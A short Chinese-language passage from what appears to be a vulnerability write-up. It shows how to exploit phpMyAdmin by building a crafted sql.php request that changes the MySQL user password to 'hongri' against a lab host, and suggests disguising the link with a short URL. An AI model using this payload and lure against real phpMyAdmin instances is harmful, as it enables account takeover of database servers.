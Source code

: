 ### 1.2.4.2 利用过程

将当前用户密码更改为hongri，SQL命令

```
SET passsword=PASSWORD('hongri');
```

构造poc

```
http://f1496b741e86dce4b2f79f3e839f977d.vsplate.me:19830/pma/sql.php?db=mysql&table=user&sql_query=SET%20password
%20=%20PASSWORD(%27hongri%27)
```

我们可以使用短域名伪装
[![img](https://xz.aliyun.com/t/6128)](https://xz.aliyun.com/t/6128)
修改成功
[![img](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/20190831100156-4f73a5de-cb93-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190831100156-4f73a5de-cb93-1.png)